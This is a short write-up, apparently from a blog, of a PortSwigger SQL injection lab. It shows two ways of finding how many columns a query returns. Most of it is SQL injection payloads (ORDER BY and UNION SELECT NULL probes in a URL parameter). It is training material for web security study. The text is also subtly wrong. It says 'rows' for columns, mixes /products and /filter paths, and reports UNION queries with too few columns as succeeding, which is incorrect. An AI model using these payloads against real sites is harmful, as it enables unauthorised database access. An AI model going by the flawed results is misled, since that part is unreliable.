 ```yaml
---
title: PSA - SQLi 3 - UNION attack, determining the number of columns returned by the query
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

Now we can use 2 technics to determine the number of rows returned:

### Method 1 - ORDER BY

````text
<website>/filter?category=Gifts' ORDER BY 1--    # works
<website>/filter?category=Gifts' ORDER BY 2--    # works
<website>/filter?category=Gifts' ORDER BY 3--    # works
<website>/filter?category=Gifts' ORDER BY 4--    # error!
````

So we know 3 columns are returned.

### Method 2 - UNION SELECT NULL

````text
<website>/filter?category=Gifts' UNION SELECT NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

Same result: 3 columns are returned.
